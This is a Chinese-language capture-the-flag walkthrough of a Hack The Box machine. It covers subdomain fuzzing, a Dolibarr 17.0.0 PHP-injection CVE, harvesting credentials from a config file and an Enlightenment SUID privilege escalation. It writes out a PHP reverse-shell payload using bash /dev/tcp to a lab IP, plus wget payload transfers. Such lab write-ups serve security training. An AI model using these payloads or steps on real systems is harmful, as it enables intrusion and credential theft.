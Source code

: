 連進網站後先用nmap去看看他開啟哪些服務 有22跟80也就是ssh跟http 應該也就是想辦法獲得ssh帳號密碼進入並提權拿到flag
![image](https://hackmd.io/_uploads/SyfxFob_0.png)

再來使用dirsearch 進行目錄爆破看有沒有感興趣的目錄 但掃出來的權限也都不足
![image](https://hackmd.io/_uploads/rJa5FiW_0.png)

於是去訪問他的網站看有沒有什麼地方可以利用的 但也都沒反應
![image](https://hackmd.io/_uploads/BysucjbOR.png)

滑到最下面有看到她的domain `Board.htb` 把它加入到`/etc/hosts`後一樣沒有反應
![image](https://hackmd.io/_uploads/ByRFcKz_R.png)

![image](https://hackmd.io/_uploads/SJAOqtzuA.png)


所以這時候就要來找看看他的subdomain 我這邊用的是`ffuf`他的[github](https://github.com/ffuf/ffuf)還有[wiki](https://github.com/ffuf/ffuf/wiki) 其他還有像是`wfuzz` `gobuster` 可以使用
```
ffuf -u http://Board.htb -w /usr/share/wordlists/subdomains-top1million-110000.txt -H "Host:FUZZ.Board.htb -c -fw 6243
```
`-u` 是要掃得url `-w`是指定字典檔 `-H`是因為我們要掃subdomain所以指定他 而`FUZZ`部分就是我們要進行爆破的地方 `-fw`是指除了大小為6243之外的都回傳

指定6243是因為發現錯誤回傳的大小都是6243 因此只要不是6243大小的應該就是正確subdomain 這邊變掃出了`crm`這個subdomain
![image](https://hackmd.io/_uploads/ByhCnYzOA.png)

把`crm.Board.htb`也加入`/etc/hosts`裡面
![image](https://hackmd.io/_uploads/HkjHCFzOC.png)

訪問`crm.Board.htb`後得到這個網站 上方有他的版本號 是`Dolibarr 17.0.0`
![image](https://hackmd.io/_uploads/SJtVAFGOC.png)

上網找看看有沒有相關的CVE 發現有`CVE-2023-30253` 可以參考這個文章[原理介紹跟腳本](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253?tab=readme-ov-file)
![image](https://hackmd.io/_uploads/ByZICQ4_0.png)

上網搜尋Dolibarr的預設帳密為 `admin` `admin` 並成功登入
![image](https://hackmd.io/_uploads/SJMeNtcO0.png)

照著剛剛CVE的漏洞嘗試看看 先創個網站
![image](https://hackmd.io/_uploads/HJoK_Kc_0.png)

再弄個頁面
![image](https://hackmd.io/_uploads/HkfhuF9OC.png)

點擊`Edit HTML Source` 進去修改他的HTML 嘗試放php code發現會被擋
![image](https://hackmd.io/_uploads/By6ott5_A.png)

修改大小寫後就發現可以了 並且也可以執行
![image](https://hackmd.io/_uploads/ByERKK5_A.png)
![image](https://hackmd.io/_uploads/HyeG9t5OC.png)

這邊就可以嘗試放個reverse shell`<?pHp exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.65/1010 0>&1'"); ?>`
![image](https://hackmd.io/_uploads/Syx92K5O0.png)

然後起一個監聽
![image](https://hackmd.io/_uploads/r17BhF9dR.png)

就成功去了
![image](https://hackmd.io/_uploads/SyJOhKcdC.png)

這邊可以加個`python3 -c 'import pty;pty.spawn("/bin/bash")'` 弄個pty出來 會比較好看
![image](https://hackmd.io/_uploads/r1vWCYq_A.png)

在`~/html/crm.board.htb/htdocs/conf`裡的conf.php發現了username跟密碼 : `dolibarrowner` `serverfun2$2023!!`
![image](https://hackmd.io/_uploads/BJua75q_R.png)

ssh登入失敗 在`/home`目錄找到一個叫 `larissa` 用他的名字當username登入看看成功了
![image](https://hackmd.io/_uploads/H1AQ459dC.png)

想使用`sudo -l` 看看有沒有甚麼能提權的方法 但沒有
![image](https://hackmd.io/_uploads/rkDnrz4OC.png)

用[`leanpeas`](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)來掃描 用法 先`wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64` 裝到本地

本地架一個`python3 -m http.server 9999` 
然後在目標靶機把她載下來`wget http://10.10.14.94:9999/linpeas.sh` 
![image](https://hackmd.io/_uploads/Hy6hEcc_0.png)

最後chmod完就直接`./linpeas.sh| tee output.txt`執行

在linpeas掃描出來的output.txt裡面可以看到 在SUID這裡 有使用到`enlightenment`的服務 可能有可以提權的問題
![image](https://hackmd.io/_uploads/r1v74GE_0.png)

查看enlightenment版本後發現是0.23.1
![image](https://hackmd.io/_uploads/rk1RbzEOR.png)

上網搜尋後發現`CVE-2022-37706`這個CVE 原因主要是因為setuid的問題導致用戶可以提權 詳細原理可以看[這個](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) 一樣透過剛剛架的服務把下載下來的exploit上傳到主機裡
![image](https://hackmd.io/_uploads/SyfdWzNuA.png)

修改權限後並執行就可以發現變成root權限 這時就可以去flag資料夾拿flag了
`flag:71cf37bc68726deb2d71eed76250aa20`
![image](https://hackmd.io/_uploads/Hknx-fV_R.png)

![image](https://hackmd.io/_uploads/S16e0ucdA.png)

